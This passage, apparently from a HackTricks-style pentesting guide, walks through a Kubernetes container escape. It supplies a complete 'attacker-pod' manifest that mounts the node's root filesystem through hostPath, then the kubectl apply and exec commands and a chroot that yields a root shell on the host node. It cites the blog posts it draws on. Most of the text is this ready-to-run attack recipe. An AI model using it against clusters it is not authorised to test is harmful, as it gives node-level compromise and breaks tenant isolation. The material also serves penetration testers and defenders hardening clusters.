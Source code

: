 Then you create your attack.yaml file

```yaml
apiVersion: v1
kind: Pod
metadata:
  labels:
    run: attacker-pod
  name: attacker-pod
  namespace: default
spec:
  volumes:
    - name: host-fs
      hostPath:
        path: /
  containers:
    - image: ubuntu
      imagePullPolicy: Always
      name: attacker-pod
      command: ["/bin/sh", "-c", "sleep infinity"]
      volumeMounts:
        - name: host-fs
          mountPath: /root
  restartPolicy: Never
  # nodeName and nodeSelector enable one of them when you need to create pod on the specific node
  #nodeName: master
  #nodeSelector:
  #  kubernetes.io/hostname: master
  # or using
  #  node-role.kubernetes.io/master: ""
```

[original yaml source](https://gist.github.com/abhisek/1909452a8ab9b8383a2e94f95ab0ccba)

After that you create the pod

```bash
kubectl apply -f attacker.yaml [-n <namespace>]
```

Now you can switch to the created pod as follows

```bash
kubectl exec -it attacker-pod [-n <namespace>] -- sh # attacker-pod is the name defined in the yaml file
```

And finally you chroot into the node's system

```bash
chroot /root /bin/bash
```

Information obtained from: [Kubernetes Namespace Breakout using Insecure Host Path Volume — Part 1](https://blog.appsecco.com/kubernetes-namespace-breakout-using-insecure-host-path-volume-part-1-b382f2a6e216) [Attacking and Defending Kubernetes: Bust-A-Kube – Episode 1](https://www.inguardians.com/attacking-and-defending-kubernetes-bust-a-kube-episode-1/)

## References

{{#ref}}
https://www.cyberark.com/resources/threat-research-blog/kubernetes-pentest-methodology-part-3
{{#endref}}

{{#include ../../banners/hacktricks-training.md}}



